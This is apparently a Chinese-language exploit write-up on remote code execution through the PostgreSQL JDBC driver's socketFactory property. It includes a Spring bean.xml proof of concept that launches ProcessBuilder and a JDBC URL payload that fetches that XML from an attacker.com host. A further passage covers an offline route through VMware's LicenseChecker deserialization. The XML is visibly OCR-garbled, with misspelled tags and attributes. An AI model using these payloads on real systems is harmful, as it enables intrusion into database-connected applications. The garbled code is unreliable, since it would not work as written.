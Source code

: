 ![](https://mmbiz.qpic.cn/mmbiz_png/Gw8FuwXLJnRcIo3zjtulicBH0zX1gHBH4ibE8rNb2IJhB4JNJOKx2qSxKMVHg3LCVm8SEiakAW7SfvvibZ8mU5PicQw/640?wx_fmt=png "")  
  
或者还可以通过PostgreSQL JDBC 驱动的 socketFactory 属性执行RCE。通过设置 socketFactory 和 socketFactoryArg 属性，攻击者可以触发任意 Java 类中定义的构造函数的执行，条件是该构造函数具有可控的字符串参数。所以可以构造如下poc：  
  
bean.xml:  
```
<beans xnlns="http://www.springframework.ar9/schema/beans"
xnlns:xsi="http://www.w3.0rg/2001/XMLSchema- iristance"
xsi:schenaLocat ion="http://www.springfiremefork.org/schema /beans http://www.Springframework.org/schema/beans /spring-beans.xsd">
<bean id="pb" class="Java.Lang.ProcessButlder" init-method="start">
<constructor-arg>
<list>
svalue>touch</value>
svalue>/tmp/rcevalue>
</list>
</constructo-arg>
</bean>
</beans>

```  
  
payload:  
  
jdbc:postgresql://si/saas?&socketFactory=org.springframework.context.support.FileSystemXmlApplicationContext&socketFactoryArg=http://attacker.com:9090/bean.xml  
  
挂载在VPS上即可：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Gw8FuwXLJnRcIo3zjtulicBH0zX1gHBH4K1IXlL634dMHPibuxLKTodrEriazaYmudT61GPm3uVb9ahFhhB32SHGQ/640?wx_fmt=png "")  
  
当然样的话就比较受出网限制，如果目标没法出网的情况下，还得思考下如何进一步改进利用，这里用到了com.vmware.licensecheck.LicenseChecker这个类：  
```
public LicenseChecker(final String s) {
        this(s, true);
    }
    public LicenseChecker(final String state, final boolean validateExpiration) {
        this._handle = new LicenseHandle();
        if (state != null) {
            this._handle.setState(state); 
        }
        this._validateExpiration = validateExpiration;
    }

```  
  
LicenseChecker的构造函数会调用另外一个重载构造函数LicenseChecker(final String state, final boolean validateExpiration),其中会调用到LicuseHandle 类上的 setState：  
```
 public void setState(String var1) {
        if (var1 != null && var1.length() >= 1) {
            try {
                byte[] var2 = MyBase64.decode(var1); // 3
                if (var2 != null && this.deserialize(var2)) { // 4
                    this._state = var1;
                    this._isDirty = false;
                }
            } catch (Exception var3) {
                log.debug(new Object[]{"failed to decode state: " + var3.getMessage()});
            }

        }
    }

```  
  